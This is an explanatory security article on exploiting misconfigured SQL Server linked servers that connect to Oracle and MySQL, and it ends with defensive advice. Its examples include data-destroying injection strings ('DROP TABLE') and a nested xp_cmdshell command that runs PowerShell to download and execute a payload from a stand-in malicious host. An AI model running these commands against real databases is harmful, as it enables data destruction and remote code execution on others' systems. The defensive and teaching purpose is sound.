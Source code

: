 Exploiting misconfigurations in linked database servers of different types (e.g., SQL Server linked to Oracle, MySQL, PostgreSQL, etc.) involves understanding how these systems interact, the potential vulnerabilities in their configurations, and how an attacker might leverage these vulnerabilities to gain unauthorized access or escalate privileges.

### **Key Concepts**

- **Linked Servers**: SQL Server can be linked to other database systems using OLE DB providers. This allows SQL Server to execute queries against these linked databases as if they were local.
- **Cross-Platform SQL Injection**: Differences in SQL dialects and command execution can create opportunities for SQL injection, especially if input is not sanitized.
- **Credential Mismanagement**: Credentials used to link databases may have higher privileges than necessary, leading to privilege escalation.
- **Command Execution**: If the linked server allows command execution (e.g., via `xp_cmdshell` in SQL Server or similar functions in other databases), it might be possible to execute arbitrary commands on the linked server.

### **Potential Exploitation Scenarios**

1. **Privilege Escalation through Trust Relationships**:
   - **Scenario**: SQL Server `A` is linked to an Oracle server `B`. If SQL Server `A` trusts all queries executed from `B` without proper checks, an attacker might execute privileged operations on `A` via `B`.
   - **Exploitation**: An attacker with access to `B` can execute commands on `A` with elevated privileges, exploiting the trust relationship.

2. **Cross-Platform SQL Injection**:
   - **Scenario**: An application queries a SQL Server, which in turn queries a linked MySQL server using dynamically constructed SQL queries.
   - **Exploitation**: If user input is not properly sanitized, an attacker could inject SQL code that affects the MySQL server, exploiting differences in SQL syntax to bypass security controls.

3. **Credential Theft and Abuse**:
   - **Scenario**: The linked server setup stores credentials (e.g., in plaintext or easily accessible locations).
   - **Exploitation**: An attacker who gains access to these credentials can connect to the linked database with potentially elevated privileges, allowing for data exfiltration or further lateral movement.

4. **Execution of Arbitrary Commands**:
   - **Scenario**: SQL Server is linked to another SQL Server or Oracle database. If `xp_cmdshell` (SQL Server) or similar commands are enabled on the linked server, these can be exploited to run OS commands.
   - **Exploitation**: An attacker can execute commands on the linked server, leading to complete system compromise (e.g., running PowerShell scripts, downloading malware).

### **Exploitation Example: Linked SQL Server to Oracle**

Suppose you have a SQL Server linked to an Oracle server, and the SQL Server instance has a higher privilege level (e.g., `sysadmin`). Here’s how an exploitation might occur:

#### **Step 1: Enumerate Linked Servers**

First, an attacker would enumerate linked servers from the SQL Server:

```sql
EXEC sp_linkedservers;
```

#### **Step 2: Query the Oracle Linked Server**

The attacker may then query the Oracle server using `OPENQUERY`:

```sql
SELECT * 
FROM OPENQUERY(OracleLinkedServer, 'SELECT username FROM all_users');
```

If Oracle is not properly secured, the attacker may gain access to sensitive information or manipulate data.

#### **Step 3: Inject SQL via Oracle Server**

If the input to `OPENQUERY` is not sanitized, SQL injection could be possible:

```sql
SELECT * 
FROM OPENQUERY(OracleLinkedServer, 'SELECT * FROM users WHERE id = 1; DROP TABLE sensitive_table;');
```

#### **Step 4: Command Execution on Linked SQL Server**

If `xp_cmdshell` is enabled, the attacker might execute commands on the SQL Server from Oracle:

```sql
SELECT * 
FROM OPENQUERY(OracleLinkedServer, 'SELECT * FROM OPENQUERY(SERVERNAME, ''EXEC master..xp_cmdshell ''''powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri http://malicious.com/payload.exe -OutFile C:\\payload.exe; Start-Process C:\\payload.exe"'''' '')');
```

### **Exploitation Example: Linked SQL Server to MySQL**

Similarly, if SQL Server is linked to MySQL, an attacker could exploit the link:

```sql
SELECT * 
FROM OPENQUERY(MySQLLinkedServer, 'SELECT user FROM mysql.user');
```

#### **Cross-Platform SQL Injection**

If the application dynamically builds a SQL statement using input:

```sql
-- SQL Server
SELECT * 
FROM OPENQUERY(MySQLLinkedServer, 'SELECT * FROM orders WHERE id = ' + @user_input);
```

If `@user_input` is not sanitized, an attacker could inject:

```sql
; DROP TABLE orders; --
```

### **Defense Against Linked Server Exploitation**

1. **Least Privilege**: Ensure linked server accounts have the least privilege necessary. Avoid using high-privilege accounts like `sysadmin` or `root`.
2. **Sanitize Input**: Always sanitize and validate input, especially when dealing with linked servers.
3. **Disable Unnecessary Features**: Disable features like `xp_cmdshell` unless absolutely necessary.
4. **Audit and Monitor**: Regularly audit linked server configurations and monitor for unusual queries or cross-database access patterns.
5. **Encryption and Credential Management**: Encrypt credentials used for linked servers and ensure they are stored securely.

### **Conclusion**

Linked servers of different types introduce additional layers of complexity and potential vulnerabilities. Attackers can exploit these misconfigurations for privilege escalation, command execution, and data exfiltration. By understanding how these systems interact and implementing strong security practices, you can mitigate the risks associated with linked server configurations.